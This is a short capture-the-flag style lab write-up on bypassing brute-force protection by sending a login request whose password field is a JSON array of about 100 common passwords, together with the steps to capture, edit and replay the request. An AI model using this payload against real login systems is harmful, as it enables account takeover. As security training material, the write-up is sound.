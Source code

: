 # Lab 05 : Broken brute-force protection, multiple credentials per request

## Overview:
- Level : EXPERT
- This lab is vulnerable due to a logic flaw in its brute-force protection. To solve the lab, brute-force Carlos's password, then access his account page.

Victim's username: carlos

## Analysis:
- login request have json data for username and password


## Solution:
- capture login request
- since the data is in json format 
- change json data to following 

{"username":"carlos","password":[
	"123456", "password", "12345678", "qwerty", "123456789", "12345", "1234", "111111", "1234567", 
    "dragon", "123123", "baseball", "abc123", "football", "monkey", "letmein", "shadow", "master", 
    "666666", "qwertyuiop", "123321", "mustang", "1234567890", "michael", "654321", "superman", 
    "1qaz2wsx", "7777777", "121212", "000000", "qazwsx", "123qwe", "killer", "trustno1", "jordan", 
    "jennifer", "zxcvbnm", "asdfgh", "hunter", "buster", "soccer", "harley", "batman", "andrew", 
    "tigger", "sunshine", "iloveyou", "2000", "charlie", "robert", "thomas", "hockey", "ranger", 
    "daniel", "starwars", "klaster", "112233", "george", "computer", "michelle", "jessica", "pepper", 
    "1111", "zxcvbn", "555555", "11111111", "131313", "freedom", "777777", "pass", "maggie", "159753", 
    "aaaaaa", "ginger", "princess", "joshua", "cheese", "amanda", "summer", "love", "ashley", "nicole", 
    "chelsea", "biteme", "matthew", "access", "yankees", "987654321", "dallas", "austin", "thunder", 
    "taylor", "matrix", "mobilemail", "mom", "monitor", "monitoring", "montana", "moon", "moscow"
]}


- send that request and it gives 302 
- right click show responce in browser 